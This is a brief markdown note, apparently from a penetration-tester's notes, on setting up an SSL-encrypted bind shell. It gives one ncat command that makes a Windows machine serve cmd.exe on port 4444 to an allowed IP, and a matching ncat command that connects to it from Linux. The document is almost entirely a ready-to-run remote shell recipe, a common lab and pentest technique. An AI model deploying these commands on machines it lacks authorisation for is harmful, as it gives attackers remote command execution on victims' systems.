 # Creating a more secure bind shell

## On the windows box
1. Move ncat.exe to the windows share

2. Run the following command

```ncat -lvp 4444 -e cmd.exe --allow YOU.RE.IP.ADD --ssl```

## On the linux box

1. run the following to connect to the cmd.exe

```ncat -v IP.AD.DRE.SS --ssl```
